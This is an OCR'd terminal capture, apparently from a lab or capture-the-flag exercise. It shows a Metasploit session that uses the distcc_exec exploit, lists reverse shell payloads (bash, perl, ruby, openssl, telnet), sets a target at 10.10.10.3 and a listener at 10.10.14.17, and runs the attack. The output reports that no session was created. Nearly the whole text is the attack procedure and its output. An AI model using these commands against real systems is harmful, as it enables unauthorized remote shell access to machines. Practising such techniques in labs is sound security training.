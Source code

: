    cmd/unix/reverse_bash                                normal  No     Unix Command Shell, Reverse TCP (/dev/tcp)
   cmd/unix/reverse_bash_telnet_ssl                     normal  No     Unix Command Shell, Reverse TCP SSL (telnet)
   cmd/unix/reverse_openssl                             normal  No     Unix Command Shell, Double Reverse TCP SSL (openssl)
   cmd/unix/reverse_perl                                normal  No     Unix Command Shell, Reverse TCP (via Perl)
   cmd/unix/reverse_perl_ssl                            normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   cmd/unix/reverse_ruby                                normal  No     Unix Command Shell, Reverse TCP (via Ruby)
   cmd/unix/reverse_ruby_ssl                            normal  No     Unix Command Shell, Reverse TCP SSL (via Ruby)
   cmd/unix/reverse_ssl_double_telnet                   normal  No     Unix Command Shell, Double Reverse TCP SSL (telnet)

msf5 exploit(unix/misc/distcc_exec) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf5 exploit(unix/misc/distcc_exec) > options

Module options (exploit/unix/misc/distcc_exec):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target address range or CIDR identifier
   RPORT   3632             yes       The target port (TCP)


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf5 exploit(unix/misc/distcc_exec) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(unix/misc/distcc_exec) > set LHOST 10.10.14.17
LHOST => 10.10.14.17
msf5 exploit(unix/misc/distcc_exec) > run

[*] Started reverse TCP handler on 10.10.14.17:4444
[*] Exploit completed, but no session was created.
msf5 exploit(unix/misc/distcc_exec) > show payloads

Compatible Payloads
===================
